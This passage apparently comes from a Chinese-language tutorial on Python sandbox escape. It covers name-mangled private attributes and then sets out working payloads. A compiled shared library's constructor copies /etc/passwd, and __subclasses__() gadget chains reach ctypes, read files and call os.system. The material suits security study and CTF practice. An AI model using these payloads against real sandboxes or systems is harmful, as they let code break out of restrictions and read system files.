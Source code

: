 ```py
    if results[result]['flag']:
        print '[*]', result
        for r in results[result]['result']:
            print '\t[+]', r, '=>', results[result]['result'][r]
```

---

## 伪 private 属性和函数

Python 中以双下划线开头的函数和属性是 private 的，但是这种 private 只是形式上的，表示这个函数不应该在本类之外的地方进行访问，而是否遵守则取决于具体的实现。公有的函数和属性，使用其名字直接进行访问；而私有的属性和函数，使用 `下划线+类名+函数名` 进行访问：

```py
class A():
    __a = 1
    b = 2
    def __c(self):
        pass
    def d(self):
        pass

print dir(A)
```

---

## 构造 so 库

编译一个 so 库，并写入指定的路径：

```c
// gcc test.c -shared -fPIC -o test.so

tee test.c <<-'EOF'
void my_init() __attribute__((constructor));
void my_init() {
    system("cat /etc/passwd > /tmp/passwd_bak");
}
EOF
```

调用 ctypes 来载入 so 库：
```py
# ''.__class__.__mro__[-1].__subclasses__()[235] => ctypes.CDLL
# ''.__class__.__mro__[-1].__subclasses__()[236] => ctypes.LibraryLoader

''.__class__.__mro__[-1].__subclasses__()[236](''.__class__.__mro__[-1].__subclasses__()[235]).LoadLibrary('test.so')

''.__class__.__mro__[-1].__subclasses__()[40]('/usr/lib/python2.7/os.py').read()
__import__('os').system('cat /tmp/passwd_bak')
```

---